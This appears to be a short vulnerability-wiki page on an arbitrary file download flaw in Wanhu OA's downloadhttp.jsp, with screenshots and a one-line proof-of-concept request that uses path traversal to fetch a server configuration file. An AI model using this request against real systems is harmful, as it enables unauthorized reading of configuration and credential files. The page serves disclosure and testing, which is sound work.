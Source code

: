 # Wanhu OA downloadhttp.jsp any file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file on Wanhu OA downloadhttp.jsp file. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA </span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174643131.png)

Verify POC

```javascript
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646039844800-07a00418-a36e-466c-a6ad-da6d8a9621ea.png)